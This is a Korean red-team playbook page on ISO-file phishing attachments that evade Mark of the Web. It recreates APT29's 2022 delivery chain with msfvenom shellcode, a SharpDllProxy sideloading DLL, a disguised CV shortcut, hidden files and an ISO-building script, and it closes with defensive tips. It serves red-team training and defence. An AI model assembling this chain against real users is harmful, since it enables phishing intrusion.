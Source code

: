 ```yaml
---
description: T1553.005
---
```


# ISO

악성 오피스 문서의 시대가 저물며 공격자들은 피싱에 사용될 수 있는 첨부 파일 종류들을 찾기 시작했다. ISO 파일 포멧은 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 파일 종류다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO를 피싱 공격을 할 때 첨부 파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일을 실행하려고 하면 윈도우는 유저에게 경고창을 띄운다. 이는 인터넷에서 다운 받은 위험한 파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

![이런 경고창 한 번 쯤은 본 기억이 있지 않은가](<../../.gitbook/assets/image (11).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 포함시킬 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 압축 파일을 보내는 것과 비슷하다. 공격자들은 피싱 공격을 할 때 ISO 파일 안에 다른 페이로드들을 같이 숨겨 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭 하면 파일은 자동으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 마운트 된 드라이브에 쓰여진다.&#x20;

### 실습&#x20;

실습에서는 APT29 그룹이 2022년 7월 [실제 공격](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)에 사용했던 페이로드를 똑같이 재현해본다. APT29는 러시아의 해외정보국 (SVR) 이라고 추측되는 그룹이다.&#x20;

7월달 공격에서 APT29는 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩 했다. 사이드로딩을 실행하는 데에는 자기소개서/레쥬처럼 생긴 LNK 파일을 사용했다. 이 모든 페이로드들을 담고 있 ISO 파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용되 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다.&#x20;

1. 쉘코드를 생성한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

![](<../../.gitbook/assets/image (5) (1).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 iso를 다음의 파워쉘 스크립트를 이용해 만든다. 원본은 여기있다&#x20;

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;



![](../../.gitbook/assets/apt29-iso.gif)

ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;



### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT29 같은 경우 외국의 자기소개서/레쥬메(Resume) 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레쥬메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심해야 한. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**



### 레퍼런스&#x20;

{% embed url="https://github.com/mgeeky/PackMyPayload" %}

{% embed url="https://outflank.nl/blog/2020/03/30/mark-of-the-web-from-a-red-teams-perspective/" %}

{% embed url="https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/" %}
